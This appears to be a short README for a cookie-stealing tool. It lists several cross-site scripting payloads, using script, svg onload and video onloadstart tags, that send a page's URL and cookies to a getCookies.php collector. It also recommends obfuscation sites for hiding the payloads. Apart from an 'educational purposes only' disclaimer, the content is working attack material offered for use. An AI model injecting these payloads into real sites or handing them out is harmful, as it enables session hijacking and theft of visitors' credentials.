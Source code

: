 <h2>For educational purposes only, use at your own responsibility.</h2>

<p>This script gets  all cookies, ip address and url from vulnerable site and stores it in data.txt.</p>

<p>Here same payload examples for usage.</p>

    <sCRiPt>new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;</sCRiPt>

    <svgonload=setTimeout(function(a){a=document.createElement(`img`);a.src=`https://localhost/getCookies.php?       u=${document.location.href}&c=${document.cookie}`;document.getElementsByTagName(`body`)[0].appendChild(a);},500);>

    <video autoplay onloadstart="new Image().src=`https://localhost/getCookies.php?u=${document.location.href}&c=${document.cookie}`;" src=x></video>

    <sCRiPt>new Image().src="https://localhost/getCookies.php?u="+document.location.href+"&c="+document.cookie;</sCRiPt>

<p>These examples in above is written for bypassing cross site origin policy in all browsers but you can use your own payload instead.</p>
<p>For encrypting your payload:</p>
<a href="https://obfuscator.io/">obfuscator.io</a>
<a href="http://www.jsfuck.com/">jsfuck.com</a>

From: <a href="https://cyberzone.az/">CyberZone.az</a>
